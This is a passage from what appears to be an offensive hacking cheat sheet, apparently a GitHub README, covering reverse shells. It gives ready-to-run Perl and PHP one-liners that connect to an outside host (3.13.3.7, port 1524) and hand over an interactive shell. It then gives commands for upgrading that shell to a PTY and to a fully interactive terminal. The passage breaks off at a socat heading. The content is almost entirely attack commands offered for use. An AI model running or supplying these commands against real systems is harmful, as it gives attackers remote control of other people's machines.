```sh
# method 1
perl -e 'use Socket;$i="3.13.3.7";$p=1524;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
# method 2
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"3.13.3.7:1524");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
<a id="rswphp-anchor"></a>
**5.i.e. Reverse shell with PHP**

```sh
php -r '$sock=fsockopen("3.13.3.7",1524);exec("/bin/bash -i <&3 >&3 2>&3");'
```

<a id="rsu-anchor"></a>
<a id="rsup-anchor"></a>
**5.ii.a. Upgrade a reverse shell to a PTY shell**

Any of the above reverse shells are limited. For example *sudo bash* or *top* will not work. To make these work we have to upgrade the shell to a real PTY shell:

```sh
exec script -qc /bin/bash /dev/null  # Linux
exec script -q /dev/null /bin/bash   # BSD
```

Or:
```sh
# Python
exec python -c 'import pty; pty.spawn("/bin/bash")'
```

<a id="rsup2-anchor"></a>
**5.ii.b. Upgrade a reverse shell to a fully interactive shell**

...and if we also like to use Ctrl-C etc then we have to go all the way and upgrade the reverse shell to a real fully colorful interactive shell:

```sh
# On the target host spwan a PTY using any of the above examples:
python -c 'import pty; pty.spawn("/bin/bash")'

# Now Press Ctrl-Z to suspend the connection and return to your own terminal.
# On your terminal execute:
stty raw -echo opost; fg

# On target host
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 80
```

<a id="rssc-anchor"></a>
**5.ii.c. Reverse shell with socat (fully interactive)**
